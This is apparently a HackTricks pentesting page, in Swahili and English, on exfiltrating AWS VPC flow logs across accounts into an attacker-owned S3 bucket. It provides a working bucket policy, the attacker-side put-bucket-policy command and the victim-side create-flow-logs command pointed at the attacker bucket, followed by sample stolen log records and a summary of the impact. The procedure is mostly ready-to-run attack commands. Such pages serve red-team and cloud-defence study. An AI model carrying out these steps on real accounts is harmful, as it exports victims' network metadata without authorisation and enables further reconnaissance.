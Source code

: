 # AWS - VPC Flow Logs Cross-Account Exfiltration to S3

{{#include ../../../../banners/hacktricks-training.md}}

## Muhtasari
Tumia vibaya `ec2:CreateFlowLogs` kuhamisha VPC, subnet, au ENI flow logs moja kwa moja kwenye bucket ya S3 inayodhibitiwa na mshambuliaji. Mara delivery role itakapowekwa kuandika kwenye bucket ya nje, kila muunganisho unaoonekana kwenye rasilimali inayofuatiliwa hupelekwa nje ya akaunti ya mwathiriwa.

## Mahitaji
- Principal wa mwathiriwa: `ec2:CreateFlowLogs`, `ec2:DescribeFlowLogs`, na `iam:PassRole` (ikiwa delivery role inahitajika/imetengenezwa).
- Attacker bucket: sera ya S3 inayomwamini `delivery.logs.amazonaws.com` na `s3:PutObject` na `bucket-owner-full-control`.
- Hiari: `logs:DescribeLogGroups` ikiwa una-export kwenda CloudWatch badala ya S3 (haina haja hapa).

## Hatua za Shambulio

1) **Attacker** huandaa sera ya bucket ya S3 (katika akaunti ya attacker) inayoruhusu huduma ya VPC Flow Logs delivery kuandika vitu. Badilisha placeholders kabla ya kutekeleza:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowVPCFlowLogsDelivery",
"Effect": "Allow",
"Principal": { "Service": "delivery.logs.amazonaws.com" },
"Action": "s3:PutObject",
"Resource": "arn:aws:s3:::<attacker-bucket>/flowlogs/*",
"Condition": {
"StringEquals": { "s3:x-amz-acl": "bucket-owner-full-control" }
}
}
]
}
```
Tekeleza kutoka kwenye attacker account:
```bash
aws s3api put-bucket-policy \
--bucket <attacker-bucket> \
--policy file://flowlogs-policy.json
```
2) **Victim** (compromised principal) anaunda flow logs zikilenga attacker bucket:
```bash
REGION=us-east-1
VPC_ID=<vpc-xxxxxxxx>
ROLE_ARN=<delivery-role-with-logs-permissions>   # Must allow delivery.logs.amazonaws.com to assume it
aws ec2 create-flow-logs \
--resource-type VPC \
--resource-ids "$VPC_ID" \
--traffic-type ALL \
--log-destination-type s3 \
--log-destination arn:aws:s3:::<attacker-bucket>/flowlogs/ \
--deliver-logs-permission-arn "$ROLE_ARN" \
--region "$REGION"
```
Ndani ya dakika chache, flow log files zinaonekana katika attacker bucket zikionyesha connections za ENIs zote katika VPC/subnet iliyofuatiliwa.

## Ushahidi

Mifano ya rekodi za flow log zilizoandikwa kwenye attacker bucket:
```text
version account-id interface-id srcaddr dstaddr srcport dstport protocol packets bytes start end action log-status
2 947247140022 eni-074cdc68182fb7e4d 52.217.123.250 10.77.1.240 443 48674 6 2359 3375867 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 52.217.123.250 48674 443 6 169 7612 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 54.231.199.186 10.77.1.240 443 59604 6 34 33539 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 10.77.1.240 54.231.199.186 59604 443 6 18 1726 1759874460 1759874487 ACCEPT OK
2 947247140022 eni-074cdc68182fb7e4d 16.15.204.15 10.77.1.240 443 57868 6 162 1219352 1759874460 1759874487 ACCEPT OK
```
Ushahidi wa Bucket listing:
```bash
aws s3 ls s3://<attacker-bucket>/flowlogs/ --recursive --human-readable --summarize
```
## Impact
- Exfiltration ya metadata ya mtandao inayoendelea (source/destination IPs, ports, protocols) kwa VPC/subnet/ENI iliyofuatiliwa.
- Inaruhusu uchambuzi wa trafiki, utambuzi wa huduma nyeti, na uwezekano wa kutafuta security group misconfigurations kutoka nje ya akaunti ya mwathiriwa.

{{#include ../../../../banners/hacktricks-training.md}}
